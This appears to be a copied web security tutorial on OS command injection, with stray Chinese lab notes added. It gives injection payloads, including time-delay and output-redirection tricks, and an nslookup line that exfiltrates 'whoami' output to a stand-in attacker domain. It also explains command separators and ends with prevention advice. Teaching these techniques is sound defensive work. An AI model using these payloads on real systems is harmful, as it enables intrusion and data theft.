

OS command injection
In this section, we’ll explain what OS command injection is, describe how vulnerabilities can be detected and exploited, spell out some useful commands and techniques for different operating systems, and summarize how to prevent OS command injection.

Labs
If you’re already familiar with the basic concepts behind OS command injection vulnerabilities and just want to practice exploiting them on some realistic, deliberately vulnerable targets, you can access all of the labs in this topic from the link below.
What is OS command injection?
OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.
Executing arbitrary commands
Consider a shopping application that lets the user view whether an item is in stock in a particular store. This information is accessed via a URL like:
https://insecure-website.com/stockStatus?productID=381&storeID=29
To provide the stock information, the application must query various legacy（（软件或硬件）已过时但因使用范围广而难以替代的） systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:
stockreport.pl 381 29
This command outputs the stock status for the specified item, which is returned to the user.
Since the application implements no defenses against OS command injection, an attacker can submit the following input to execute an arbitrary command:
& echo aiwefwlguh &
If this input is submitted in the productID parameter, then the command executed by the application is:
stockreport.pl & echo aiwefwlguh & 29
The echo command simply causes the supplied string to be echoed in the output, and is a useful way to test for some types of OS command injection. The & character is a shell command separator, and so what gets executed is actually three separate commands one after another. As a result, the output returned to the user is:
Error - productID was not provided aiwefwlguh 29: command not found
The three lines of output demonstrate that:
The original
stockreport.plcommand was executed without its expected arguments, and so returned an error message.The injected
echocommand was executed, and the supplied string was echoed in the output.The original argument
29was executed as a command, which caused an error.
Placing the additional command separator & after the injected command is generally useful because it separates the injected command from whatever follows the injection point. This reduces the likelihood that what follows will prevent the injected command from executing.
LAB
Useful commands
When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:
Purpose of command |
Linux |
Windows |
|---|---|---|
Name of current user |
|
|
Operating system |
|
|
Network configuration |
|
|
Network connections |
|
|
Running processes |
|
|
Blind OS command injection vulnerabilities
Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.
Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the mail program with the submitted details. For example:
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
The output from the mail command (if any) is not returned in the application’s responses, and so using the echo payload would not be effective. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.
最后通过?filename=xxx读取
Detecting blind OS command injection using time delays
You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond. The ping command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run:
& ping -c 10 127.0.0.1 &
This command will cause the application to ping its loopback network adapter for 10 seconds.
LAB
Blind OS command injection with time delays
注意+号在burp中已经是空格的意思，不要对其进行url编码，否则命令会执行失败。
Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location /var/www/static, then you can submit the following input:
& whoami > /var/www/static/whoami.txt &
The > character sends the output from the whoami command to the specified file. You can then use the browser to fetch https://vulnerable-website.com/whoami.txt to retrieve the file, and view the output from the injected command.
LAB
Exploiting blind OS command injection using out-of-band (OAST) techniques
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:
& nslookup kgji2ohoyw.web-attacker.com &
This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.
LAB
Blind OS command injection with out-of-band interaction
The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
This will cause a DNS lookup to the attacker’s domain containing the result of the whoami command:
wwwuser.kgji2ohoyw.web-attacker.com
LAB
Blind OS command injection with out-of-band data exfiltration
Ways of injecting OS commands
A variety of shell metacharacters can be used to perform OS command injection attacks.
A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:
&&&|||
The following command separators work only on Unix-based systems:
;Newline (
0x0aor\n)
On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:
` injected command`
$(injected command)
Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval（带内检索） of command output or are useful only for blind exploitation.
Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.
How to prevent OS command injection attacks
By far the most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In virtually every case, there are alternate ways of implementing the required functionality using safer platform APIs.
If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input validation must be performed. Some examples of effective validation include:
Validating against a whitelist of permitted values.
Validating that the input is a number.
Validating that the input contains only alphanumeric characters, no other syntax or whitespace.
Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.
Read more
Find OS command injection vulnerabilities using Burp Suite’s web vulnerability scannerRead PortSwigger Research’s writeup of the Hunting Asynchronous Vulnerabilities presentation from 44Con and BSides Manchester